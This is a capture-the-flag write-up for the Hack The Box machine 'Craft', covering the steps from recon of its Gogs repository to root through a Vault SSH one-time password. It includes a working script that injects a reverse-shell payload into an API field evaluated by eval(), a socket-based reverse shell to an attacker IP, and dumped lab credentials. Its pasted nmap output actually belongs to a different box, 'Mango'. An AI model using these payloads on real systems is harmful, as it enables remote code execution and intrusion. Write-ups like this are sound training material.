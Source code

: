 # Craft

![](https://i.imgur.com/DOJzRQ6.png)

# Recon


After running `nmap` we get:
```
# Nmap 7.80 scan initiated Fri Nov 22 09:31:03 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Changing hosts file

By looking at the source code we can see gogs and api subdomains


So I just modified the  /etc/hosts to the following in order to access them.
```
10.10.10.110    craft.htb gogs.craft.htb api.craft.htb
```

## Gogs page
![](https://i.imgur.com/wDN37yi.png)


By a simple Google search we find out that [Gogs](https://gogs.io/) is a somewhat widely used git service.

Exploring the Craft repo we quickly find that there was an issue and a "fix" was implemented:
![](https://i.imgur.com/eAIzGds.png)

By simply looking at the code we can easily identify where the vulnerability is. That is, passing user defined input directly into the eval function. 

We can also see that an API is used in the test file, so let's take a look at it as well.

## API page
We are presented with this once the page loads:
![](https://i.imgur.com/4cdaJZf.png)

So as you can see we can login ( therefore getting a token ), check the validity of the token and delete,update,create,get brews. However we can't interact with it since we don't have any credentials in order to get a token...

But wait, let's take a closer look at those 2 commits from before. 

![](https://i.imgur.com/LjZ4X8U.png)

OH, there you go, credentials found in the source code. Very bad practice indeed :))

# Exploiting eval
Now that we have the credentials needed to get a token, we need to think of a way to exploit the eval function. Wel... that's easy we just need to do this:

```python
import requests
import json
import urllib3

urllib3.disable_warnings()

url = "https://api.craft.htb/api/"
s = requests.Session()
r = s.get(url + "auth/login", auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(r.text)['token']
print(token)

data = {
    "abv"       : "__import__('os').system('bash -i >& /dev/tcp/10.10.15.136/7070 0>&1')#",
    "name"      : "test",
    "brewer"    : "test",
    "style"     : "test"
}
data = json.dumps(data)

headers = {
    'X-Craft-API-Token': token,
    'Content-Type': 'application/json'
}
r = s.post(url + "brew/", headers=headers, data=data)
print(r.text)
```

And start our listener:

```bash
nc -nvlp 7070
```

Execute it and... Nothing. But it sohuld work right?

Well that's what I thought in the first place as well, but after a lot of thinking, poking and coffe I found out that I was pretty restricted, so I said fuck it. And build the payload from scratch with the things I knew would work. 

Finally I've ended up with this:
```python
eval(compile("""for x in range(1):\n import socket,subprocess, os\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n s.connect(("10.10.15.200", 7070))\n os.dup2(s.fileno(),0)\n os.dup2(s.fileno(),1)\n os.dup2(s.fileno(),2)\n import pty\n pty.spawn("/bin/sh")""","","single"))
```

After running the same script again, but with this payload I've got a shell.  Hooray!!

# Escaping the jail
I run `whoami` and I'm root. Uhmmm.... That's pretty strange, but ok let's take the root.txt
```bash
cat: /root/root.txt: No such file or directory
```

At this point I was confused, I thought that I gained access to a box that I wasn't supposed to, but that couldn't happen. Thus, I took a deeper look and found out that I was in a jail. However, I was having access to a file that I was previously interested in, but couldn't find it in the gogs page. That file being *`settings.py`*

So I just saw it in the directory I was currently in and took a look at it:

```python
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Another credentials, ok... but what can we do with them? Well, he is using them to connect to the db so let's do the same:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host='db',
                             user='craft',
                             password='qLGockJ6G2J75O',
                             db='craft',
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "select * from users"
        cursor.execute(sql)
        result = cursor.fetchall()
        for i in range(len(result)):
            print(result[i])

finally:
    connection.close()
```

And we get:

```
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Nice we've now got the credentials for every user.
Now what?

At this point I thought to SSH with the found credentials, but it didn't work. So after getting into some really deep rabbit holes I've decided to try to connect to the Gogs page with the new secrets as a last hope.

And I've got in with the gilfoyle user, prompted with this:
![](https://i.imgur.com/Zwo1dtQ.png)

**Note: Don't overcomplicate things, work with what you have and exhaust every possibility before moving on**

I've instantly looked at the `.ssh` folder and found the private key and therefore got user. 

# Getting root

Once I've got user I immediatly went back to the new repo to have a deeper look into it, since I learned my lesson from the previous incident.

After looking through almost everything, the `vault/secrets.sh` popped as the most interesting to have a look at:
```bash
#!/bin/bash
# set up vault secrets backend
vault secrets enable ssh

vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0
```

With the help from Google I've found [this](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html). I've just followed the article:

```bash
vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Got the otp and used it to connect through SSH, since root was allowed to login.



